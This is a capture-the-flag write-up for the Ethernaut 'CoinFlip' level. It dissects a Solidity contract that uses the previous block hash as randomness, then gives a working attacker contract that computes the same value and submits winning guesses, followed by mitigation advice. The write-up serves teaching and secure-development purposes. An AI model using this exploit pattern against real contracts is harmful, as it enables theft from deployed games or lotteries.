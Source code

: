 ```yaml
---
title: "4. CoinFlip"
tags:
- writeups
---
```


- used [mythrill](https://github.com/ConsenSys/mythril) for static analysis on EVM bytecode: `myth a CoinFlip.sol`
	- make sure you store your contracts locally *(`coinFlip.sol` & dependencies: `SafeMath.sol`)* 
	- control flow decision is made based on the block hash of a previous block
- we might be able to guess every time by having control over how the `blockValue` is determined, so let's look @ the contract

## Dissecting the contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract CoinFlip {

    using SafeMath for uint256;
    uint256 public consecutiveWins;
    uint256 lastHash;
    // it's actually 2^255
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // Setup the counter to 0
    constructor() public {
      consecutiveWins = 0;
    }


    // give a bool, get bool back
    function flip(bool _guess) public returns (bool) {
      // block.number: the curr block nr
      // blockhash(): hash of the given block — only for 256 most recent blocks
      // look @ the nr of the prev block, get hash & cast to uint256
      uint256 blockValue = uint256(blockhash(block.number.sub(1)));


      // check for multiple txs  on the same block  
      // and let through only the first one
      if (lastHash == blockValue) {
        // undo all state changes, but handled 
        // differently than an `invalid opcode`
        //   - allows youo to return value
        //   - or refund remaining gas to caller
        revert();
      }
      // set the lastHash based on blockValue
      // ! it's entirely dependent on the block tx is included on
      lastHash = blockValue;
      
      // btw: 3 / 4 = 0 in solidity
      // so we should get only 1 or 0
      uint256 coinFlip = blockValue.div(FACTOR);
      bool side = coinFlip == 1 ? true : false;

      // compare pseudo random flip result with
      // user's guess & adjust wins accordingly
      if (side == _guess) {
        consecutiveWins++;
        return true;
      } else {
        consecutiveWins = 0;
        return false;
      }
    }
}
```

## Exploitation
**Every single transaction in the same block can determine the same `blockValue` => evaluate the *coinflip* result**. 

How we could do that ? As always the best way to attack a smart contract is with another smart contract :))
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";
using SafeMath for uint256;

contract CoinFlip {
	...
}

contract angryApe {
  CoinFlip public flipper; // instance of target contract
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  bool public guess; // make guess accesible

  // init connection to the target contract
  constructor() {
    flipper = CoinFlip(0x37b29A2b9d16b4d005EfcEce415e555C5FD2cf71);
  }

  // sometimes you can cheat
  function cheat() public returns(bool) {
    // calculate blockValue, flip & get your guss
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 flip       = blockValue.div(FACTOR);
    guess   = flip == 1 ? true : false;

    // send to target contract
    flipper.flip(guess);
    return true;
  }
}
```

The only thing left to be done is to spam the `cheat()` function
> *is there any way to automate this?*


## Takeaways
>  "This property of Proof of Work based consensus is one of the greatest obstacles to achieving truly random outcomes on the blockchain. Think on that before building a decentralized lotto 🤑"
- generating random numbers in solidity can be tricky, since everything in smart contracts i publicly visible *(including the local `private` vars)*
- whenever developing a smart contract keep in mind that miners also have control over things like: blockhashes, timestamps & whether to include certain txs
### Mitigation
- to get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.
- other options include using Bitcoin block headers *(verified through [BTC Relay](http://btcrelay.org/))*, [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

## See Also
- [[write-ups/Ethernaut Wargame]]
- [[02. Fallout]] | [[04. Telephone]]